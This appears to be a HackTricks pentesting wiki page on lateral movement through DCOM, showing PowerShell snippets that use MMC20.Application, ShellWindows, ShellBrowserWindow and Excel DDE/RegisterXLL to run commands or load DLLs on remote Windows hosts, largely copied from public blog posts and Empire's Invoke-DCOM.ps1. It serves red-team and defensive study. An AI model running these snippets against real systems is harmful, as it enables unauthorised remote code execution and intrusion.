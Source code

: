 # DCOM Exec

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud)..

</details>

<figure><img src="/.gitbook/assets/image (675).png" alt=""><figcaption></figcaption></figure>

Find vulnerabilities that matter most so you can fix them faster. Intruder tracks your attack surface, runs proactive threat scans, finds issues across your whole tech stack, from APIs to web apps and cloud systems. [**Try it for free**](https://www.intruder.io/?utm\_source=referral\&utm\_campaign=hacktricks) today.

{% embed url="https://www.intruder.io/?utm_campaign=hacktricks&utm_source=referral" %}

***

## MMC20.Application

**DCOM** (Distributed Component Object Model) objects are **interesting** due to the ability to **interact** with the objects **over the network**. Microsoft has some good documentation on DCOM [here](https://msdn.microsoft.com/en-us/library/cc226801.aspx) and on COM [here](https://msdn.microsoft.com/en-us/library/windows/desktop/ms694363\(v=vs.85\).aspx). You can find a solid list of DCOM applications using PowerShell, by running `Get-CimInstance Win32_DCOMApplication`.

The [MMC Application Class (MMC20.Application)](https://technet.microsoft.com/en-us/library/cc181199.aspx) COM object allows you to script components of MMC snap-in operations. While enumerating the different methods and properties within this COM object, I noticed that there is a method named `ExecuteShellCommand` under Document.ActiveView.

![](<../../.gitbook/assets/image (4) (2) (1) (1).png>)

You can read more on that method [here](https://msdn.microsoft.com/en-us/library/aa815396\(v=vs.85\).aspx). So far, we have a DCOM application that we can access over the network and can execute commands. The final piece is to leverage this DCOM application and the ExecuteShellCommand method to obtain code execution on a remote host.

Fortunately, as an admin, you can remotely interact with DCOM with PowerShell by using “`[activator]::CreateInstance([type]::GetTypeFromProgID`”. All you need to do is provide it a DCOM ProgID and an IP address. It will then provide you back an instance of that COM object remotely:

![](<../../.gitbook/assets/image (665).png>)

It is then possible to invoke the `ExecuteShellCommand` method to start a process on the remote host:

![](<../../.gitbook/assets/image (1) (4) (1).png>)

## ShellWindows & ShellBrowserWindow

The **MMC20.Application** object lacked explicit “[LaunchPermissions](https://technet.microsoft.com/en-us/library/bb633148.aspx)”, resulting in the default permission set allowing Administrators access:

![](<../../.gitbook/assets/image (4) (1) (2).png>)

You can read more on that thread [here](https://twitter.com/tiraniddo/status/817532039771525120).\
Viewing which other objects that have no explicit LaunchPermission set can be achieved using [@tiraniddo](https://twitter.com/tiraniddo)’s [OleView .NET](https://github.com/tyranid/oleviewdotnet), which has excellent Python filters (among other things). In this instance, we can filter down to all objects that have no explicit Launch Permission. When doing so, two objects stood out to me: `ShellBrowserWindow` and `ShellWindows`:

![](<../../.gitbook/assets/image (3) (1) (1) (2).png>)

Another way to identify potential target objects is to look for the value `LaunchPermission` missing from keys in `HKCR:\AppID\{guid}`. An object with Launch Permissions set will look like below, with data representing the ACL for the object in Binary format:

![](https://enigma0x3.files.wordpress.com/2017/01/launch\_permissions\_registry.png?w=690\&h=169)

Those with no explicit LaunchPermission set will be missing that specific registry entry.

### ShellWindows

The first object explored was [ShellWindows](https://msdn.microsoft.com/en-us/library/windows/desktop/bb773974\(v=vs.85\).aspx). Since there is no [ProgID](https://msdn.microsoft.com/en-us/library/windows/desktop/ms688254\(v=vs.85\).aspx) associated with this object, we can use the [Type.GetTypeFromCLSID](https://msdn.microsoft.com/en-us/library/system.type.gettypefromclsid\(v=vs.110\).aspx) .NET method paired with the[ Activator.CreateInstance](https://msdn.microsoft.com/en-us/library/system.activator.createinstance\(v=vs.110\).aspx) method to instantiate the object via its AppID on a remote host. In order to do this, we need to get the [CLSID](https://msdn.microsoft.com/en-us/library/windows/desktop/ms691424\(v=vs.85\).aspx) for the ShellWindows object, which can be accomplished using OleView .NET as well:

![shellwindow\_classid](https://enigma0x3.files.wordpress.com/2017/01/shellwindow\_classid.png?w=434\&h=424)

As you can see below, the “Launch Permission” field is blank, meaning no explicit permissions are set.

![screen-shot-2017-01-23-at-4-12-24-pm](https://enigma0x3.files.wordpress.com/2017/01/screen-shot-2017-01-23-at-4-12-24-pm.png?w=455\&h=401)

Now that we have the CLSID, we can instantiate the object on a remote target:

```powershell
$com = [Type]::GetTypeFromCLSID("<clsid>", "<IP>") #9BA05972-F6A8-11CF-A442-00A0C90A8F39
$obj = [System.Activator]::CreateInstance($com)
```

![](https://enigma0x3.files.wordpress.com/2017/01/remote\_instantiation\_shellwindows.png?w=690\&h=354)

With the object instantiated on the remote host, we can interface with it and invoke any methods we want. The returned handle to the object reveals several methods and properties, none of which we can interact with. In order to achieve actual interaction with the remote host, we need to access the [WindowsShell.Item](https://msdn.microsoft.com/en-us/library/windows/desktop/bb773970\(v=vs.85\).aspx) method, which will give us back an object that represents the Windows shell window:

```
$item = $obj.Item()
```

![](https://enigma0x3.files.wordpress.com/2017/01/item\_instantiation.png?w=416\&h=465)

With a full handle on the Shell Window, we can now access all of the expected methods/properties that are exposed. After going through these methods, **`Document.Application.ShellExecute`** stood out. Be sure to follow the parameter requirements for the method, which are documented [here](https://msdn.microsoft.com/en-us/library/windows/desktop/gg537745\(v=vs.85\).aspx).

```powershell
$item.Document.Application.ShellExecute("cmd.exe", "/c calc.exe", "c:\windows\system32", $null, 0)
```

![](https://enigma0x3.files.wordpress.com/2017/01/shellwindows\_command\_execution.png?w=690\&h=426)

As you can see above, our command was executed on a remote host successfully.

### ShellBrowserWindow

This particular object does not exist on Windows 7, making its use for lateral movement a bit more limited than the “ShellWindows” object, which I tested on Win7-Win10 successfully.

Based on my enumeration of this object, it appears to effectively provide an interface into the Explorer window just as the previous object does. To instantiate this object, we need to get its CLSID. Similar to above, we can use OleView .NET:

![shellbrowser\_classid](https://enigma0x3.files.wordpress.com/2017/01/shellbrowser\_classid.png?w=428\&h=414)

Again, take note of the blank Launch Permission field:

![screen-shot-2017-01-23-at-4-13-52-pm](https://enigma0x3.files.wordpress.com/2017/01/screen-shot-2017-01-23-at-4-13-52-pm.png?w=399\&h=340)

With the CLSID, we can repeat the steps taken on the previous object to instantiate the object and call the same method:

```powershell
$com = [Type]::GetTypeFromCLSID("C08AFD90-F2A1-11D1-8455-00A0C91F3880", "<IP>")
$obj = [System.Activator]::CreateInstance($com)

$obj.Document.Application.ShellExecute("cmd.exe", "/c calc.exe", "C:\Windows\system32", $null, 0)
```

![](https://enigma0x3.files.wordpress.com/2017/01/shellbrowserwindow\_command\_execution.png?w=690\&h=441)

As you can see, the command successfully executed on the remote target.

Since this object interfaces directly with the Windows shell, we don’t need to invoke the “ShellWindows.Item” method, as on the previous object.

While these two DCOM objects can be used to run shell commands on a remote host, there are plenty of other interesting methods that can be used to enumerate or tamper with a remote target. A few of these methods include:

* `Document.Application.ServiceStart()`
* `Document.Application.ServiceStop()`
* `Document.Application.IsServiceRunning()`
* `Document.Application.ShutDownWindows()`
* `Document.Application.GetSystemInformation()`

## ExcelDDE & RegisterXLL

In a similar way it's possible to move laterally abusing DCOM Excel objects, for more information read [https://www.cybereason.com/blog/leveraging-excel-dde-for-lateral-movement-via-dcom](https://www.cybereason.com/blog/leveraging-excel-dde-for-lateral-movement-via-dcom)

```powershell
# Chunk of code from https://github.com/EmpireProject/Empire/blob/master/data/module_source/lateral_movement/Invoke-DCOM.ps1
## You can see here how to abuse excel for RCE
elseif ($Method -Match "DetectOffice") {
    $Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
    $Obj = [System.Activator]::CreateInstance($Com)
    $isx64 = [boolean]$obj.Application.ProductCode[21]
    Write-Host  $(If ($isx64) {"Office x64 detected"} Else {"Office x86 detected"})
}
elseif ($Method -Match "RegisterXLL") {
    $Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
    $Obj = [System.Activator]::CreateInstance($Com)
    $obj.Application.RegisterXLL("$DllPath")
}
elseif ($Method -Match "ExcelDDE") {
    $Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
    $Obj = [System.Activator]::CreateInstance($Com)
    $Obj.DisplayAlerts = $false
    $Obj.DDEInitiate("cmd", "/c $Command")
}
```

## Tool

The Powershell script [**Invoke-DCOM.ps1**](https://github.com/EmpireProject/Empire/blob/master/data/module\_source/lateral\_movement/Invoke-DCOM.ps1) allows to easily invoke all the commented ways to execute code in other machines.

## References

* The first method was copied from [https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/](https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/), for more info follow the link
* The second section was copied from [https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/](https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/), for more info follow the link

<figure><img src="/.gitbook/assets/image (675).png" alt=""><figcaption></figcaption></figure>

Find vulnerabilities that matter most so you can fix them faster. Intruder tracks your attack surface, runs proactive threat scans, finds issues across your whole tech stack, from APIs to web apps and cloud systems. [**Try it for free**](https://www.intruder.io/?utm\_source=referral\&utm\_campaign=hacktricks) today.

{% embed url="https://www.intruder.io/?utm_campaign=hacktricks&utm_source=referral" %}


<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>
